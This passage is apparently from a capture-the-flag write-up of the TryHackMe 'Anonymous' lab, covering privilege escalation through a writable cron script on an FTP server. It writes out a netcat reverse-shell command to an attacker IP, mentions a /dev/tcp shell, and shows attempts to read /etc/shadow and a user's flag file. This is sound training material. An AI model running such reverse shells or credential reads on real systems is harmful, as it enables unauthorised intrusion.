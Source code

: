 While that was running I decided to keep after the script we can modify on the ftp server. I tried to read the `/etc/shadow` file to setup a John attack locally, however that didn't ouput anything to the log file (I'm guessing I lacked the permissions needed). After that I tried looking into the `namelessone`'s home folder with the following command:<br>
<p align="center"><img width="700" src="/assets/blog/THM-Anonymous/directory listing.png"></p>
<br>
This revealed a file called `user.txt` - our first flag. After editing that bash file with the following command `cat /home/namelessone/user.txt >> /var/ftp/scripts/removed_files.log`, it will eventually output the user flag:<br>
<p align="center"><img width="450" src="/assets/blog/THM-Anonymous/user flag.png"></p>
<br>
Now at this point the bruteforce had been running for some time with nothing useful. This made me think that the foothold is going to have to be through the ftp server as well, so I added a quick `which nc` and `which ncat` to see if netcat was installed on the system and once confirming it was installed at `/bin/nc` I added `/bin/nc 10.2.2.129 4444 -e /bin/sh` to try and start a reverse shell. Despite being installed, this didn't work and I don't know why. I tried adding a `sudo` at the front as well as confirming that bash was installed where it should be on the system, but nothing came from that. My firewall wasn't blocking anything that command would've needed and the port also wasn't otherwise in use.<br>
<br>
As a quick side note, I checked the crontab next with a `crontab -l` in the bash script and confirmed that it was running what I expected:<br>
<p align="center"><img width="700" src="/assets/blog/THM-Anonymous/the crontab.png"></p>
<br>
Well, with netcat not working I tried the `/dev/tcp` route which I got from [PenTestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). For whatever reason (the issue still wasn't the port), our nc listener now lights up with that reverse shell:<br>
<p align="center"><img width="750" src="/assets/blog/THM-Anonymous/nc_listener.png"></p>
<br>
I tried a `sudo -l` which did not help, and after checking for SUID permissions it returned a massive list that would have taken a long time to sift through manually. I found [this page](https://null-byte.wonderhowto.com/how-to/find-exploit-suid-binaries-with-suid3num-0215789/), which has a script that will automatically search for anything in that list that might be vulnerable. This is similar to the LinEnum script I have mentioned in previous posts.<br><br>
Following their steps I downloaded their `.py` file (I had also previously confirmed python was installed on this system), and after starting a web server on our local machine we can download the script onto the target machine:<br>